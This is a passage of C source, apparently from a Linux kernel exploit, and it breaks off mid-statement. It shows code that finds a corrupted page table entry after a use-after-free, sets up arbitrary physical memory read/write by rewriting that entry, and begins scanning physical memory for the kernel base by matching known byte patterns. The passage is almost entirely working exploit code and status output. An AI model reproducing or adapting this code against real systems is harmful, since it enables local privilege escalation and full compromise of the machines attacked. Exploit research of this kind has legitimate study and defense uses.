 ```c
   if ((uaf_maps[i][0] & 0xf000000000000fff) == 0x8000000000000067)
   {
    int found = 0;

    /* Mark corrupted */
    uaf_maps[i][1] = uaf_maps[i][0];

    cur_addr = mmap_start;
    for (size_t j = 0; j < n_ptes; j++)
    {
     if (*(cur_addr + 0x1000) == 0x41)
     {
      arb_rw_mmap = (unsigned long *)cur_addr;
      arb_rw_pte = uaf_maps[i];
      found = 1;
      break;
     }

     if (found)
      break;

     cur_addr += 0x1000 * 512;
    }

    if (found)
    {
     puts("[*] found page table");
     break;
    }

    puts("[?] bogus pte found");
   }
  }

  if ((arb_rw_pte == NULL) || (arb_rw_mmap == NULL))
  {
   puts("[-] exploit failed");
   _exit(1);
  }

  puts("[*] phys arb rw is ready");
  printf("[*] arb r/w mmap = %p\n", arb_rw_mmap);
  printf("[*] arb r/w pte = %p => 0x%lx\n", arb_rw_pte, *arb_rw_pte);

  /* Scan for phys kbase */
  unsigned long system_ram_base = 0x100000;
  unsigned long cur_paddr = system_ram_base;
  unsigned long phys_kbase = 0;

  while (1)
  {
   /* clear tlb */
   if (munmap(arb_rw_mmap, 0x1000) < 0)
    err(1, "munmap");

   if (mmap((void *)arb_rw_mmap, 0x1000, PROT_READ | PROT_WRITE, MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != (void *)arb_rw_mmap)
    err(1, "mmap");

   arb_rw_pte[0] = 0x8000000000000067 | cur_paddr;

   if (arb_rw_mmap[0] == 0x3f4e258d48f78949 &&
    arb_rw_mmap[1] == 0x48c0000101b901c0 &&
```